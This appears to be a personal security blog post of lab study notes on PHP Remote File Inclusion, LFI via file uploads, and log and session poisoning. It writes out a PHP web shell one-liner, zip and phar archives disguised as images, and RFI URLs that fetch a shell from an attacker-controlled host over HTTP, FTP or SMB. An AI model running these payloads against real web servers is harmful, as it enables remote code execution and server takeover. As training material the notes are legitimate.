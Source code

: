 ```yaml
---
title: Remote File Inclusion (RFI)
date: 2024-02-14 20:00 
categories: [Path Traversal]
tags: [SMB, RFI, RCE, PHP, FTP, Reverse Shell]
author: jamarapo
---
```




Remote File Inclusion (RFI) is an exploitation technique where a vulnerable function allows the inclusion of remote URLs. This can lead to significant security risks, including remote code execution. Here's a detailed overview of RFI and how it can be exploited:

## Introduction
RFI is the ability to include remote files via vulnerable functions.

    While similar to Local File Inclusion (LFI), RFI involves remote URLs.
    Exploiting RFI allows attackers to execute malicious code remotely.

Distinguishing RFI:

    Vulnerable functions like include() in PHP permit RFI if not properly secured.
    RFI vulnerabilities can exist independently or alongside LFI.

Identification and Verification:

    Check for RFI by attempting to include a remote URL.
    Confirm RFI vulnerability by observing successful inclusion of remote content.

## Exploitation Techniques
### HTTP Exploitation:
Start an HTTP server hosting a malicious script. Include the script via a vulnerable RFI endpoint.
      

``` php
    sudo python3 -m http.server <LISTENING_PORT>
    [Include Remote Shell via HTTP]([http://<OUR_IP>:<LISTENING_PORT>/shell.php&cmd=id](http://<OUR_IP>:<LISTENING_PORT>/shell.php&cmd=id))
```
   
### FTP Exploitation
   Host the malicious script via FTP.
    Include the script using the FTP scheme in the URL.

````
    bash

    sudo python -m pyftpdlib -p 21
    [Include Remote Shell via FTP]([ftp://<OUR_IP>/shell.php&cmd=id](ftp://<OUR_IP>/shell.php&cmd=id))
````
### SMB Exploitation
Utilize the SMB protocol, especially effective on Windows servers.
   

``` bash
    impacket-smbserver -smb2support share $(pwd)
```

## Conclusion
RFI vulnerabilities pose serious security threats, enabling attackers to execute arbitrary code remotely. It's essential to understand the risks associated with RFI and implement robust security measures to mitigate these vulnerabilities effectively.


## Lab1

![alt text](/assets/img/posts/RFI/image.png)

![alt text](/assets/img/posts/RFI/image-1.png)

![alt text](/assets/img/posts/RFI/image-2.png)

![alt text](/assets/img/posts/RFI/image-3.png)


File upload functionalities are common in modern web applications, allowing users to upload data for profile configuration and other purposes. However, this feature can be exploited by attackers, especially in conjunction with vulnerabilities like Local File Inclusion (LFI).

The File Upload Attacks module explores various techniques for exploiting file upload functionalities. In this section, we focus on exploiting LFI through file uploads. Even if the file upload form itself is not vulnerable, simply allowing file uploads can enable attackers to execute code if the vulnerable function supports it.

## Key Points

  - Vulnerable functions like include() and include_once() in PHP allow executing code with file inclusion capabilities.
  - Attackers can upload seemingly harmless files, such as images containing PHP web shell code.
  -  Crafting a malicious image involves using allowed image extensions and including image magic bytes at the beginning of the file content to evade checks based on extension and content type.
  - Uploading the malicious image to the web application can potentially lead to remote code execution, especially if combined with an LFI vulnerability.

Important Functions for Code Execution:

    PHP: include(), include_once(), require(), require_once()
    NodeJS: res.render()
    Java: import
    .NET: include

## Crafting Malicious Image

The first step involves creating a malicious image file containing PHP web shell code, disguised as a legitimate image. This involves using an allowed image extension (e.g., .gif) and including image magic bytes at the beginning of the file content.

Note: While GIF images are used in this example due to their ASCII-based magic bytes, this technique can be applied to any allowed image or file type.

Once we have been uploaded an image, we can inspect the code and we expect this 
``` html
<img src="/profile_images/shell.gif" class="profile-image" id="profile-image">
```

With this URL excutes reverse shell using a GIF file.
```
/index.php?language=./profile_images/shell.gif&cmd=id
```
We can utilize the zip wrapper to execute PHP code. This wrapper not only is activated.

```
echo '<?php system($_GET["cmd"]); ?>' > shell.php && zip shell.jpg shell.php
```
We can use phan wrapper to obtain the same result.
```
 <?php
$phar = new Phar('shell.phar');
$phar->startBuffering();
$phar->addFromString('shell.txt', '<?php system($_GET["cmd"]); ?>');
$phar->setStub('<?php __HALT_COMPILER(); ?>');

$phar->stopBuffering();
```

```
php --define phar.readonly=0 shell.php && mv shell.phar shell.jpg
```

```
/index.php?language=phar://./profile_images/shell.jpg%2Fshell.txt&cmd=id
```



## Lab 2
![alt text](/assets/img/posts/RFI/image1.png)

![alt text](/assets/img/posts/RFI/image-1-1.png)

![alt text](/assets/img/posts/RFI/image-2-1.png)

In linux to look for .txt files we can use:
```
find / -type f -name "*.txt"
```

![alt text](/assets/img/posts/RFI/image-3-1.png)

## Log poisoning

Log poisoning exploits vulnerabilities in web applications to inject PHP code into log files, leading to the execution of this code when the log files are included. The key concept involves injecting PHP code into fields we control, which is then logged and subsequently executed upon inclusion.


### PHP Session Poisoning

PHP web applications often use PHPSESSID cookies to store user-related data, typically in session files located at /var/lib/php/sessions/ on Linux. By manipulating these session files, we can control and inject PHP code.

    Check PHPSESSID cookie value.
    Include session file through LFI vulnerability.
    Manipulate session data to execute PHP code.
    Write PHP web shell into session file.
    Execute commands via inclusion of session file.

### Server Log Poisoning

Apache and Nginx maintain log files such as access.log, which include details of requests, including the User-Agent header. By poisoning these logs with controlled User-Agent headers, we can execute injected PHP code.

Access and poison logs via LFI vulnerability.
Modify User-Agent header using Burp Suite or cURL.
    Execute commands via inclusion of poisoned logs.
    Consider alternative log locations like /proc/ for additional exploitation opportunities.

Log poisoning extends beyond Apache and Nginx logs, potentially impacting other service logs such as /var/log/sshd.log, /var/log/mail, and /var/log/vsftpd.log. Exploitability depends on read access and the presence of controllable parameters.


## Lab 3

![alt text](/assets/img/posts/RFI/image-5.png)

![alt text](/assets/img/posts/RFI/image-4.png)

![alt text](/assets/img/posts/RFI/image-6.png)

![alt text](/assets/img/posts/RFI/image-8.png)

![alt text](/assets/img/posts/RFI/image-7.png)

![alt text](/assets/img/posts/RFI/image-9.png)

![alt text](/assets/img/posts/RFI/image-10.png)
